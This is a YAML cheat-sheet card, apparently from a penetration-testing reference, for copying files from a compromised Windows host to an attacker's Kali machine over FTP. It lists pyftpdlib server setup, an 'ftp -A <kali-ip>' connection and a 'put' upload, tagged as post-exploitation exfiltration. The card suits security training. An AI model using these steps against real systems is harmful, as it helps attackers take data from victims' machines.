 ```yaml
---
title: |
  File Transfers - Windows to Linux - FTP
description: |
  (Linux) Setup ftp:

  	python -m pyftpdlib -p 21

  (Windows) Connect to ftp:

  	ftp -A <kali-ip>

  (Windows) Copy file to ftp server

  	put <file>

command: |
  See commands.
items:
  - Shell
  - Username
  - Password
OS:
  - Windows
  - Linux
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
  - https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/
---
```

